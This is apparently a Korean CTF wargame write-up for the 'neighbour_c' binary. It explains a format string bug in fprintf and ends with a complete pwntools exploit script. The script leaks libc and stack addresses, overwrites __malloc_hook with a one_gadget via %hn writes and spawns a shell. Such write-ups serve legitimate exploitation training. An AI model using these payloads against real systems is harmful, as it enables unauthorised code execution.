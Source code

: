 ```yaml
---
layout: post
title: "neighbour_c"
comments : true
category : War Game
---
```


# 문제
***

neighbour 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

file 명령어의 결과는 다음과 같다.
```
neighbour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=fedb3f3faea895f3fb4bb28804602fce6815e81e, stripped
```

바이너리 코드

__sub_937()__
```
void __noreturn sub_937()
{
    ...
    sub_8D0(stderr);
}
```

__sub_8D0()__ 
```
void __fastcall __noreturn sub_8D0(FILE *a1)
{
    while( fgets(format, 256, stdin) )
    {
        fprintf(a1, format);
            sleep(1u);
    }
    exit(1);
}
```

기능과 취약점은 매우 간단하다. fgets로 받은 입력을 fprintf를 통해서 stderr에 출력하는데 fprintf에 Format String Bug가 존재한다. <br/>

64bit의 경우 함수의 인자가 6개가 넘어가면 스택을 통해서 인자를 전달한다. 따라서 fprintf에 서식 문자를 5개 이상 넣으면 스택에 접근할 수 있다. <br/>

따라서 FSB를 이용해 스택에 있는 값을 변경하고 변경한 값을 참조해서 메모리의 특정 영역에 있는 값을 overwrite할 수 있다. <br/>

하지만 neighbour 바이너리는 FULL RERLO가 옵션이 설정되어 있기 때문에 got overwrite가 불가능하다. <br/>

fprintf는 출력하는 문자열의 길이가 길면 내부적으로 malloc을 호출한다. (malloc은 fprintf 함수에 의해 호출되는 vfprintf에서 호출됨) <br/>

GNU C library는 malloc, realloc, free에 hook을 제공한다. (이는 hook 값을 변경 가능하도록 하여 디버깅을 수월하게 할 수 있도록 하기 위함이다.) 위의 함수들은 호출되면 hook이 존재하는지 확인하고 만약 존재하면 hook에 저장되어 있는 값을 호출한다. 따라서 hook을 one_gadget으로 덮어쓰면 쉘을 획득할 수 있다. <br/><br/>

## exploit 방법
1. 스택에 존재하는 _IO_2_1_stderr_와 sfp를 통해서 libc와 스택 주소를 leak할 수 있다. 
2. libc leak을 통해서 __malloc_hook의 주소를 알아내고 스택에 __malloc_hook의 주소를 만든다. one_gadget과 hook에 저장되어 있는 값은 상위 4바이트 값이 동일하다. 따라서 하위 4바이트만 덮어쓰면 되는데 한 번에 4바이트 값을 덮어쓰면 fprintf에서 너무 많은 문자열이 출력되어서 fprintf가 터져버린다. 이를 방지하기 위해서 스택에 __malloc_hook 주소와 __malloc_hook+2의 주소를 만든다.
3. 스택에 만든 __malloc_hook 주소와 __malloc_hook+2의 주소를 참조해서 __malloc_hook의 값을 one_gadget의 주소로 덮어쓴다. (one_gadget의 constraint가 [rsp+0x70] == NULL이었는데 다행이 해당 위치에 NULL 값이 있었다.) 

<br/><br/>

c.f) remote 환경에서는 stderr에 fprintf를 하면 나에게 출력이 오지 않는다. 따라서 stderr를 stdout으로 바꿔줘야 한다. 방법은 다음과 같다. <br/>
stderr->_fileno가 2로 설정되어 있는데 이 값을 1으로 덮어써주면 stderr를 stdout으로 바꿀 수 있다. stderr->_fileno는 stderr + 112 에 위치하고 있다. (혁이꺼 블로그 참조)  
<br/>
이 문제에서는 stack에 stderr 값이 존재하기 때문에 이 값 (하위 1바이트 0x40으로 고정)에 112 (0x70)를 더해준 값을 해당 위치에 덮어쓴다. 이를 위해서 스택에 stderr를 가리키는 값을 만들어줘야 하는데 5 - 8 비트가 랜덤이어서 확률이 1/16이 된다.


<br/><br/>
__malloc_hook을 덮어쓰는 방법 외에도 fprintf ret 값을 one_gadget으로 덮어쓰는 방법이 있다. (혁이 방법은 libc의 stdin에 있는 _IO_jump_t vtable을 덮어쓰는 건데 이건 아직 잘 모르겠다...이 방법은 libc에서 vtable을 검증하는 IO_validate_vtable을 호출해서 dl_open_hook도 덮어줘야 한다는데...나중에 찾아보도록 하자ㅋㅋㅋ)
<br/><br/>
# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round3/neighbour_c/neighbour"

def send_pay(pay):
	p.sendline(pay+"end")
	while "end" not in p.recv(0x1000):
 		pass

	print "send complete"

#p=remote("localhost",7777)
p=process(file_path,env={"LD_PRELOAD" : "/home/sungyun/round3/neighbour_c/libc.so.6"})
#libc=ELF("/home/sungyun/round3/neighbour_c/libc.so.6")

p.recvuntil("mayor.\n")

p.sendline("%12llx"*9)
p.recv(12*5)

stderr=int(p.recv(12),16)

p.recv(24)

stack=int(p.recv(12),16)-40
low2_stack=int(hex(stack)[10:],16)

#find with readelf -s command
#libc_base=stderr-0x3c2520  # libc_old_ver
libc_base=stderr-0x3c5540

#one_gad=libc_base+0xf24cb # constraint => [rsp+0x60] == NULL #libc_old_ver
one_gad=libc_base+0xf1147 # constraint => [rsp+0x70] == NULL
hi_one_gad=int(hex(one_gad)[6:10],16)
low_one_gad=int(hex(one_gad)[10:],16)

#malloc_hook=libc_base+0x3c1af0 #libc_old_ver
malloc_hook=libc_base+0x3c4b10
low_m_hook=int(hex(malloc_hook)[10:],16)
hi_m_hook=int(hex(malloc_hook)[6:10],16)

pay="%12llx"*7
pay+="%"+str(low2_stack-12*7)+"llx"
pay+="%hn"

send_pay(pay)

pay2="%12llx"*9
pay2+="%"+str(low_m_hook-12*9)+"llx"
pay2+="%hn"

send_pay(pay2)

pay3="%12llx"*7
pay3+="%"+str(low2_stack-12*7+64)+"llx"
pay3+="%hn"

send_pay(pay3)

pay4="%12llx"*9
pay4+="%"+str(low_m_hook-12*9+2)+"llx"
pay4+="%hn"

send_pay(pay4)

pay5="%12llx"*7
pay5+="%"+str(low2_stack-12*7+64+2)+"llx"
pay5+="%hn"

send_pay(pay5)

pay6="%12llx"*9
pay6+="%"+str(hi_m_hook-12*9)+"llx"
pay6+="%hn"

send_pay(pay6)

pay7="%12llx"*4
pay7+="%"+str(low_one_gad-48)+"llx"
pay7+="%hn"
pay7+="%12llx"*6

if hi_one_gad > (low_one_gad+72):
	pay7+="%"+str(hi_one_gad-(low_one_gad+72))+"llx"
else:
	pay7+="%"+str(0x10000+hi_one_gad-(low_one_gad+72))+"llx"

pay7+="%hn"

send_pay(pay7)

p.sendline("%1000000llx")  # fprintf use malloc when large input comes

p.interactive()
```

